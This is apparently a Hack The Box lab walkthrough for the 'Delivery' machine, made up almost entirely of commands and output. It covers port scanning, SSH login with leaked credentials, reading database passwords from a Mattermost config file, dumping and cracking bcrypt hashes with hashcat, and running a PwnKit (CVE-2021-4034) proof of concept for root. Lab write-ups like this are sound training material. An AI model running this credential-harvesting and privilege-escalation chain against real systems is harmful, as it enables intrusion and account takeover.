









# Delivery

```bash
TARGET=10.10.10.222
```

```bash
$ sudo nmap -p- --min-rate 10000 $TARGET
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 22:32 PDT
Warning: 10.10.10.222 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.222
Host is up (0.11s latency).
Not shown: 63641 closed tcp ports (reset), 1891 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8065/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 22.67 seconds
```

```bash
$ sudo nmap -p 22,80,8065 -sCV $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 22:33 PDT
Nmap scan report for 10.10.10.222
Host is up (0.087s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 23 May 2024 05:26:59 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 197gzjtha3y37rjcujg3mb7uqh
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 23 May 2024 05:33:27 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Thu, 23 May 2024 05:33:27 GMT
|_    Content-Length: 0

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.05 seconds
```



```bash
$ curl -s $TARGET | grep "http"
<!--[-->For an account check out our <a href="http://helpdesk.delivery.htb">helpdesk</a><!--]--></p>
<p>For unregistered users, please use our <a href="http://helpdesk.delivery.htb">HelpDesk</a> to get in touch with our team. Once you have an @delivery.htb email address, you'll be able to have access to our <a href="http://delivery.htb:8065">MatterMost server</a>.</p>
<p class="copyright">&copy; Untitled. Design: <a href="https://html5up.net">HTML5 UP</a>.</p>
```

```bash
$ cat /etc/hosts | grep $TARGET
10.10.10.222    delivery.htb helpdesk.delivery.htb
```







```bash
Support ticket request created

Bruce Wayne, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 4957313.

If you want to add more information to your ticket, just email 4957313@delivery.htb.

Thanks,
Support Team
```











```bash
@developers Please update theme to the OSTicket before we go live.
Credentials to the server are maildeliverer:Youve_G0t_Mail! 
```

```bash
$ sshpass -p 'Youve_G0t_Mail!' ssh maildeliverer@$TARGET
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu May 23 02:18:04 2024 from 10.10.14.2
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

```bash
maildeliverer@Delivery:~$ cat /opt/mattermost/config/config.json | grep -i mysql -B1 -A1
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

```bash
maildeliverer@Delivery:~$ mysql --host=localhost --user=mmuser --password=Crack_The_MM_Admin_PW
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 145
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
...
MariaDB [(none)]>
```

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
...
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)

MariaDB [mattermost]> SELECT Username, Password, Roles FROM Users LIMIT 100;
+----------------------------------+--------------------------------------------------------------+--------------------------+
| Username                         | Password                                                     | Roles                    |
+----------------------------------+--------------------------------------------------------------+--------------------------+
| surveybot                        |                                                              | system_user              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | system_user              |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | system_user              |
| hacker                           | $2a$10$1EYRM3YiooEUGmRk4MRMr.BQITM18sZXe3hnZuDb4K0eTSj2Davii | system_user              |
| kali                             | $2a$10$8by6RqmnkajaSip7YTXYdeuNRD.EtHkZgWBOBHYRxlKdTMP/LJeda | system_user              |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | system_admin system_user |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | system_user              |
| hacker1                          | $2a$10$CwGlkj9riXS2NHrVx/gv7OokW6mnyYtpJxrSVvBq5mUPR47z28wCK | system_user              |
| channelexport                    |                                                              | system_user              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | system_user              |
| hacker2                          | $2a$10$U5PxovJ37CpxyjO3h9rIiuH4KTaexbjPBV7dXC0c/4/BB3yl5y9iu | system_user              |
| batman3                          | $2a$10$wFRvjygRNtV.isdvxPBGbOzpkucb6q6gV/yg0QLRqoAii/Ipm3XB6 | system_user              |
| batman                           | $2a$10$kwmKsyI9qdzPbWiQy0xU1eyjle8IG0im/x3wvP4kc8DLj2u2rgieO | system_user              |
+----------------------------------+--------------------------------------------------------------+--------------------------+
13 rows in set (0.001 sec)
```

```bash
$ cat root.hash 
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

```bash
$ cat pwd.hint                 
PleaseSubscribe!
```

```bash
$ hashcat root.hash pwd.hint --user -r /usr/share/hashcat/rules/best64.rule 
hashcat (v6.2.6) starting in autodetect mode
...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
```

```bash
$ hashcat -m 3200 root.hash pwd.hint --user -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.2.6) starting
...

Approaching final keyspace - workload adjusted.           

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
...
Guess.Base.......: File (pwd.hint)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
...
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:1020-1024
Candidate.Engine.: Device Generator
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
```

```bash
maildeliverer@Delivery:~$ su -
Password: PleaseSubscribe!21
root@Delivery:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## CVE-2021-4034

```bash
maildeliverer@Delivery:~$ cat /etc/os-release 
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
```

```bash
maildeliverer@Delivery:~$ uname -a
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 GNU/Linux
```

```bash
maildeliverer@Delivery:~$ pkexec --version
pkexec version 0.105
```

```bash
maildeliverer@Delivery:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
maildeliverer@Delivery:~$ ./cve-2021-4034-poc 
# id
uid=0(root) gid=0(root) groups=0(root),1000(maildeliverer)
# 
```
